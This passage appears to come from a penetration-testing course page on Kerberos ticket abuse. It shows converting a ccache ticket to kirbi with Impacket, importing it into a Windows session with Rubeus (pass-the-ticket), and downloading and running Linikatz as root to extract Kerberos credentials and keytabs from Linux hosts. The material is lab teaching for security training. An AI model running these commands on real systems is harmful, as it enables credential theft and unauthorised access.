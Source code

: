 ### Impacket Ticket Convertor
```shell-session
$ impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi # Converting from ccache to kirbi
```

We can do the reverse operation by first selecting a `.kirbi file`. Let's use the `.kirbi` file in Windows.

#### Importing Converted Ticket into Windows Session with Rubeus
```cmd-session
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
```

## Linikatz

[Linikatz](https://github.com/CiscoCXSecurity/linikatz) brings a similar principle to Mimikatz to UNIX environments.

We need to be root to take advantage of this tool, this tool will extract all credentials including Kerberos tickets, from different Kerberos implementations such as FreeIPA, SSSD, Samba, Vintella, etc. It places the credentials in a folder whose name starts with `linikatz.`. The credentials will be available in several formats, including ccache and keytabs.

### Linikatz Download and Execution
```shell-session
$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
$ /opt/linikatz.sh
```

